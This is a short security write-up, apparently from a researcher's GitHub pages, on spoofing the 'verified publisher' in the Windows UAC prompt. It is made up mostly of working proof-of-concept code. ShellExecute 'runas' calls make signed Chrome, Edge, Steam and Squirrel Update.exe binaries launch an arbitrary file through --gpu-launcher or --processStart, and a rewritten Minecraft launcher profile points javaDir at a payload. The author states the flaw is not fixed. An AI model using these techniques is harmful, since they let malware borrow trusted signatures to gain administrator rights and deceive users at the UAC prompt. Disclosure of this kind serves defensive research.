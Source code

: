 ```yaml
---
title: UAC Spoof (Not Fixed)
---
```


Spoofing the Windows UAC (user account control) prompt "verified" publisher :)  
PoCs can be found at <https://github.com/NDevTK/UACSpoof>  
![UAC prompt](https://ndevtk.github.io/writeups/UAC.png)

This is a very easy spoof since all it needs is a signed program to launch the attackers code while maintaining admin privileges.

# Chromium

Will run what ever program is set in `gpu-launcher`

```js
App.ShellExecute "C:\Program Files\Google\Chrome\Application\chrome.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```

```js
App.ShellExecute "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```

```js
App.ShellExecute "C:\Program Files (x86)\Steam\bin\cef\cef.win7x64\steamwebhelper.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```

# Squirrel Updater

Will run what ever program is set in `processStart`

```js
App.ShellExecute <Discord/Postman> + "Update.exe", "--processStart <FILE>", , "runas"
```

# Minecraft

Will run what ever program is set as the `javaDir` in `launcher_profiles.json`

```js
Profiles = "{""profiles"":{""release"":{""created"":""1970-01-02T00:00:00.000Z"",""icon"":""Grass"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-02T00:00:00.000Z"",""lastVersionId"":""latest-release"",""name"":"""",""type"":""latest-release""},""snapshot"":{""created"":""1970-01-01T00:00:00.000Z"",""icon"":""Dirt"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-01T00:00:00.000Z"",""lastVersionId"":""latest-snapshot"",""name"":"""",""type"":""latest-snapshot""}},""settings"":{""crashAssistance"":true,""enableAdvanced"":false,""enableAnalytics"":true,""enableHistorical"":false,""enableReleases"":true,""enableSnapshots"":false,""keepLauncherOpen"":false,""profileSorting"":""ByLastPlayed"",""showGameLog"":false,""showMenu"":false,""soundOn"":false},""version"":3}"
Profiles = Replace(Profiles, "<RUNTIME>", Replace(Temp, "\", "\\"))
```
